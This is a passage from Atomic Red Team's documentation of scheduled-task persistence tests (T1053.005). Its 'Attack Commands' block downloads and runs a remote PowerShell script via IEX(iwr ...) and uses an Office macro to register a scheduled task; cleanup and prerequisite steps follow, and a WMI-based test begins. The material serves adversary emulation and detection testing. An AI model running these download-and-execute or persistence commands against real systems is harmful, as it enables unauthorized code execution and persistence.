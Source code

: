 
#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1053.005\src\T1053.005-macrocode.txt" -officeProduct "#{ms_product}" -sub "Scheduler"
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "Run Notepad" -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #6 - WMI Invoke-CimMethod Scheduled Task
Create an scheduled task that executes notepad.exe after user login from XML by leveraging WMI class PS_ScheduledTask. Does the same thing as Register-ScheduledTask cmdlet behind the scenes.

**Supported Platforms:** Windows


**auto_generated_guid:** e16b3b75-dc9e-4cde-a23d-dfa2d0507b3b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xml_path | path of vbs to use when creating masquerading files | path | PathToAtomicsFolder&#92;T1053.005&#92;src&#92;T1053_005_WMI.xml|
